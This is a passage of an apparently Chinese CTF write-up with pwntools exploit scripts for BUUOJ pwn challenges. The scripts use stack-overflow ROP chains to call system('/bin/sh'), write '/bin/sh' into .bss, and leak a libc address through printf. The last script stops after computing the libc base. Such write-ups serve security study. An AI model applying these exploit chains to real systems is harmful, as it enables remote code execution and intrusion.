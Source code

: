 ```Python
print "binsh_addr:" + hex(binsh_addr)

payload = "a"*0x38 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(sys_addr)

p.recvuntil("number.\n")
p.sendline(payload)
#sleep(0.1)
p.interactive()
``` 

如果在没有libc的情况下也可以把/bin/sh字符串写入一个段内去执行system("/bin/sh")  

```Python
# -*- coding: utf-8 -*-
from pwn import*
#context.log_level = 'debug'
p=remote("node3.buuoj.cn",29434)
p=process('./ciscn_2019_n_1')
elf=ELF('./ciscn_2019_n_1')
pop_rdi_ret = 0x0000000000400793
bss_start = elf.bss()
gets = elf.plt['gets']
sys_addr = elf.plt['system']
payload = "a"*0x38 + p64(pop_rdi_ret) + p64(bss_start) + p64(gets) 
payload += p64(pop_rdi_ret) + p64(bss_start) + p64(sys_addr) 
p.sendline(payload)
p.sendline("/bin/sh\x00")
p.interactive()
```  

## 0x04  [HarekazeCTF2019]baby_rop2
差点把babyrop做成了这题，后来才发现babyrop有/bin/sh字符串……   
这题用了printf泄露__libc_start_main函数的地址，特别的地方在于布置printf的两个参数，是以前没有做过的。另外，one_gadget真香！
```python
#!/usr/bin/env python2
#conding=utf-8
from pwn import*
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
p=remote("node3.buuoj.cn",25892)
#p = process("./babyrop2")
elf = ELF("./babyrop2")
libc = elf.libc
pop_rdi_ret = 0x0000000000400733
pop_rsi_r15 = 0x0000000000400731
string = 0x400770  #printf的"%s"参数

padding = "a"*0x28
payload = padding 
payload += p64(pop_rdi_ret) 
payload += p64(string) 
payload += p64(pop_rsi_r15) 
payload += p64(elf.got['__libc_start_main'])  # 用__libc_start_main的got地址作为printf的第二个参数
payload += "a"*8  # 没有单独的pop_rsi_ret，所以r15里面要放一个垃圾值
payload += p64(elf.plt['printf']) 
payload += p64(elf.symbols['main'])
#gdb.attach(p)
p.sendline(payload)

__libc_start_main_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
base = __libc_start_main_addr - libc.symbols['__libc_start_main']
log.success("__libc_start_main_addr==>" + hex(__libc_start_main_addr))
log.success("base==>" + hex(base))

```